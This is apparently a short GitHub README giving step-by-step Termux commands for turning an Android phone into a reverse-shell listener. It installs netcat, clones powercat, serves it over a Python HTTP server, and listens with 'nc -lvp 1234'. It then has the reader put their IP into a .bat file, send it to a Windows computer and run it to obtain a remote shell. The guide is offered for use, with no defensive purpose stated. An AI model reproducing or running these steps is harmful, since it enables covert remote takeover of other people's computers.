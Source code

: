 # netcat-powershell-usable-on-android
1# download termux from playstore 
apt update 
apt upgrade 
termux-setup-storage and do allow

apt install python
apt install python2
apt install git
apt install netcat

#2 git clone https://github.com/besimorhino/powercat.git 
#3 cd powercat
#4 python -m SimpleHTTPServer 80
#5 open a new session on termux and listen with netcat by using this command
nc -lvp 1234

now reopen another termux session and type ifconfig to know ur ipadress 

and edit it on the  netcat.bat file

send to a windows computer and run the vbs

u will get a shell in the netcat session that we opened earlier
thanks for reading:/
